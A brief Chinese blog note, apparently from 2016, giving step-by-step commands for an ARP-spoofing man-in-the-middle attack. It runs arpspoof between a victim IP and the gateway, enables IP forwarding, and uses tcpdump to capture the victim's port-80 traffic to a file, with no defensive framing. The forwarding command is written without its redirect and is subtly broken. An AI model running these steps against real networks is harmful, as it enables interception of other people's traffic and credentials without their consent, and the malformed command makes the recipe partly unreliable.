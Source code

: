 <!--
  author:donar
  head:http://www.easyicon.net/api/resizeApi.php?id=556429&size=128
  date:2016-06-17
  title: arp欺骗中间人攻击
  tags:hack,arp
  category:技术笔记
  status:publish
  summary: arp欺骗中间人攻击步骤
-->

arpspoof -i en0 -t 被攻击ip 网关ip

arp欺骗前记得开启ip转发 echo 1 /proc/sys/net/ipv4/ip\_forward

tcpdump “tcp port 80 and host 被攻击ip” -w cap.cap 在dump下来的日志文件里面就可以看到tcp访问记录了

这样就完成了一个中间人攻击
